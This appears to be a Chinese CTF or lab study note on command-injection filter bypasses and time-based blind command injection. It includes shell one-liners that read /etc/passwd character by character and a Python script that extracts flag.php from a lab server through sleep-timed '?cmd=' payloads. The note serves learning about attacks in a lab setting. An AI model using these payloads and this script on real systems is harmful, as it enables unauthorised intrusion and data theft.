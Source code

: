 ###### **使用空变量$*和$@，$x,${x}绕过**
![](https://pic4.zhimg.com/80/v2-5696fd2b0781ba3b6b0884a4dabf991b_720w.webp)

##### 无回显时间盲注
 相关命令:
- [ ] sleep:
休息指令
```
sleep 5:   5秒后返回结果
```
- [ ] awk NR:
逐行获取数据
```
cat /etc/passwd|awk NR ==1  只查看/etc/passwd的第一行内容
```
- [ ] cut -c:
命令逐列获取单个字符
```
cat /etc/passwd|awk NR ==1 |cut -c 1 只查看/etc/passwd的第一行第一个的字符
```
- [ ] if语句 
判断命令是否执行
```
[]:包含条件体语句
then：成功就执行后面的内容
fi:结束
if[$(cat flag|awk NR==2|cut -c 1)==a];then echo "yes";fi 判断flag文件的第一行第一列的单词是不是a
```
脚本：![[Pasted image 20240123184348.png]]
```python
import requests
import time
url = "http://192.168.1.6:19080/class08/1.php"
result = ""
for i in range(1,5):
    for j in range(1,55):
        for k in range(32,128):
            k=chr(k)
            #time.sleep(0.1)
            payload = "?cmd=" + f"if [ `cat flag.php | awk NR=={i} | cut -c {j}` == {k} ];then sleep 2;fi"
            try:
                requests.get(url=url+payload, timeout=(1.5,1.5))
            except:
                result = result + k
                print(result)
                break
    result += " "
```